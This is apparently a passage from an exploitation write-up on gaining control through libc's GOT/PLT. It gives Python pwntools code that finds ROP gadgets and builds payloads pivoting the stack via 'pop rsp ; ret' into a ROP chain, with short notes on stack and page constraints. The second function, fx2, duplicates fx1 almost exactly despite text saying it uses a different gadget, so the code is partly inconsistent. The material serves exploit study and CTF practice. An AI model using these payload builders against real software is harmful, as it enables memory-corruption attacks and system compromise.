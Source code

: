 By the way, we can not call the system without stack magic since the stack grows to a lower address. The function to generate payload is attached:

```py
class ROPgadget():
    def __init__(self,libc: ELF,base=0):
        if Path("./gadgets").exists():
            print("[!] Using gadgets, make sure that's corresponding to the libc!")
        else:
            fp = open("./gadgets",'wb')
            subprocess.run(f"ROPgadget --binary {libc.path}".split(" "),stdout=fp)
            fp.close()
        fp = open("./gadgets",'rb')
        data = fp.readlines()[2:-2]
        data = [x.strip().split(b" : ") for x in data]
        data = [[int(x[0],16),x[1].decode()] for x in data]
        fp.close()
        self.gadgets = data
        self.base  = base
    def search(self,s):
        for addr,ctx in self.gadgets:
            if ctx == s:
                return addr+self.base
        return None    
def fx1(libc: ELF, rop_chain = []):
    got = libc.address + libc.dynamic_value_by_tag("DT_PLTGOT")
    plt0 = libc.address + libc.get_section_by_name(".plt").header.sh_addr
    rop = ROPgadget(libc,libc.address)
    pivot = rop.search("pop rsp ; ret")
    return got+8, flat(
        p64(got+8+0x38*8), # the rop chain address
        p64(pivot),
        p64(plt0) * 0x36, flat(rop_chain))
```

## fx2 - 0x1f0
Setting the parameters is painful since we are at the bound of writable pages, the stack may reach the read-only pages and crashes the program. In fx1, we use ROP to avoid calling system while in fx2, we use some special gadget to pivot the stack.

For example 
```
pop rsp; .* ;jmp rax
// As long as, gadgets in .* don't change rdi/rax.
```
The corresponding function fx2:
```py
def fx2(libc: ELF, rop_chain = []):
    got = libc.address + libc.dynamic_value_by_tag("DT_PLTGOT")
    plt0 = libc.address + libc.get_section_by_name(".plt").header.sh_addr
    rop = ROPgadget(libc,libc.address)
    pivot = rop.search("pop rsp ; ret")
    return got+8, flat(
        p64(got+8+0x38*8), # the rop chain address
        p64(pivot),
        p64(plt0) * 0x36, flat(rop_chain)+p64(got+0x3000))
```


[2]: ../Infra/SinkFinder.py
[3]: ../Code
[4]: ../Temp.md